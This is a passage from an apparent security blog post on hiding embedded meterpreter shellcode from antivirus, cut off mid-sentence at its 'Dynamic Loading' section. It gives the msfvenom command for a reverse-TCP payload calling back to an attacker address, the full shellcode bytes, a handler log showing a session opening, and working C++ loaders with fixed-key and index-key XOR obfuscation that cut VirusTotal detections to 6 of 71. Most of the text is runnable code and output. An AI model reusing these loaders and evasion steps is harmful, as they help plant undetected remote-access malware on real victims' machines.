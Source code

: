 ```yaml
---
layout: post
title:  "Embedded Shellcode Obfuscation"
date:   2023-09-15 00:00:00 +0000
categories: malware
---
```


In this blog entry, I'll be playing around with obfuscation techniques to bypass antivirus detection for an embedded meterpreter shellcode. The goal is to run shellcode in the local process, and to minimize VirusTotal flags. Techniques will be incrementally applied to the binary to observe progressive success.

### 1. Generating Shellcode
To kickstart the research, I'll generate a basic meterpreter payload. This same payload will be used throughout the research.

{% highlight powershell %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.128 LPORT=443 -f c
{% endhighlight %}

<br>
Here's the generated payload. I will omit this variable declaration from below code snippets. All C++ code will be compiled with the following line `g++ .\main.cpp -o main.exe --std=c++20`.  

{% highlight cpp %}
unsigned char buf[] = 
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x31\xff\x0f\xb7\x4a\x26"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\x85\xc0\x74\x4c\x01\xd0\x8b\x48\x18\x8b\x58\x20\x50\x01\xd3"
"\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34\x8b\x01\xd6\x31\xc0\xac"
"\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
"\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
"\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
"\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
"\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x80\x68\x02"
"\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
"\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
{% endhighlight %}

<br>
Successful shellcode execution criteria is a meterpreter session. This criteria must be met for all obfuscation techniques applied below.

{% highlight cpp %}
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:443 
[*] Sending stage (175174 bytes) to 10.0.0.129
[*] Meterpreter session 1 opened (10.0.0.128:443 -> 10.0.0.129:49800 ) at 2023-09-15 04:44:34 -0400
{% endhighlight %}

<br>
### 2. Baseline
Before attempting any obfuscation and anti-virus bypasses. I will throw this tested baseline sample into Virustotal.

{% highlight cpp %}
#include <windows.h>

int main() {
    LPVOID memory = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(memory, payload, sizeof(payload));

    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE) memory, 0, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
{% endhighlight %}

<br>
Here are the results. Extremely strange that only 26/70 vendors flagged this sample, considering it has no protection mechanisms at all. 
SHA256: [1d2c5660e52b21d7a690d1d76af0f734e3b1bb59d6beff3f94c51c1296b6d92b](https://www.virustotal.com/gui/file/1d2c5660e52b21d7a690d1d76af0f734e3b1bb59d6beff3f94c51c1296b6d92b)

![vt_baseline](/assets/post_assets/embedded-shellcode-obfuscation/vt_baseline.png)


<br>
### 3. XOR Shellcode Obfuscation 
The XOR operation is widely used for obfuscation; used especially in malware for hiding data/payloads, packing, mangling strings, and really anything under the sun. In this chapter, I will experiment with 2 different XOR obfuscation techniques:

+ Fixed-Key XOR - each byte of the payload will be XORed with the fixed value 0x27.
+ Index-Key XOR - each byte of the payload will be XORed with its index.

The objective here is to understand if it matters - how obfuscated the payload is.

<br>
#### 3.1. Fixed-Key XOR
I wrote a simple python script to assist with the obfuscation.

{% highlight python %}
def obfuscate_fixed_xor(payload_intarray: list):
    obfuscated_intarray = []
    for i in payload_intarray:
        new_int = i ^ 0x27
        obfuscated_intarray.append(new_int)

    return obfuscated_intarray
{% endhighlight %}

<br>
The C++ deobfuscation routine.

{% highlight cpp %}
#include <windows.h>

void deobfuscate(unsigned char* deobfuscated_payload) {
    int new_int {0};
    for (int index {0}; index < sizeof(payload); index++) {
        new_int = payload[index] ^ 0x27;
        deobfuscated_payload[index] = new_int;
    }
}

int main() {
    LPVOID memory = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    unsigned char deobfuscated_payload[sizeof(payload)];
    deobfuscate(deobfuscated_payload);
    memcpy(memory, deobfuscated_payload, sizeof(deobfuscated_payload));

    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE) memory, 0, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
{% endhighlight %}

<br>
Huge improvement in bypassing static antivirus scans.
SHA256: [0e247e2d325514022ca189b4f1d67ae6d8cec890f561a97e8857c6967df5902b](https://www.virustotal.com/gui/file/0e247e2d325514022ca189b4f1d67ae6d8cec890f561a97e8857c6967df5902b)

![vt_fixed_xor](/assets/post_assets/embedded-shellcode-obfuscation/vt_fixed_xor.png)


<br>
#### 3.2. Index-Key XOR
As above, a python script to automate the obfuscation. This time, each byte in the payload will be XORed with its respective index (mod 0xff, to keep within 8 bits).

{% highlight python %}
def obfuscate_index_xor(payload_intarray: list):
    obfuscated_intarray = []
    for index in range(len(payload_intarray)):
        xor = index % 0xff
        new_int = payload_intarray[index] ^ xor
        obfuscated_intarray.append(new_int)
    
    return obfuscated_intarray
{% endhighlight %}

<br>
The exact same deobfuscation routine, but written in C++.

{% highlight cpp %}
#include <windows.h>

void deobfuscate(unsigned char* deobfuscated_payload) {
    int xor {0};
    int new_int {0};
    for (int index {0}; index < sizeof(payload); index++) {
        xor = index % 0xff;
        new_int = payload[index] ^ xor;
        deobfuscated_payload[index] = new_int;
    }
}

int main() {
    LPVOID memory = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    unsigned char deobfuscated_payload[sizeof(payload)];
    deobfuscate(deobfuscated_payload);
    memcpy(memory, deobfuscated_payload, sizeof(deobfuscated_payload));

    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE) memory, 0, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
{% endhighlight %}

<br>
The results - 6/71 vendors detected. Same as the Fixed-XOR technique
SHA256: [7d7710c28190bc5d49187fd99bf042574705b57454ad770e7239b602596ddfbf](https://www.virustotal.com/gui/file/7d7710c28190bc5d49187fd99bf042574705b57454ad770e7239b602596ddfbf)

![vt_index_xor](/assets/post_assets/embedded-shellcode-obfuscation/vt_index_xor.png)


<br>
#### 3.3. XOR Summary
Both the Fixed-XOR and Index-XOR scored the same 6/71 score on VirusTotal. This meant that even Fixed-XOR hid the shellcode successfully, and it doesn't matter the depth of the shellcode obfuscation. This suggests that the remaining 6 vendors detected other traits of the malicious file - likely the plaintext WinAPIs - and other patterns yet unknown (to me).

For the remaining incrementals, I will continue off the Index-XOR version.

<br>
### 4. Dynamic Loading
This section will test the 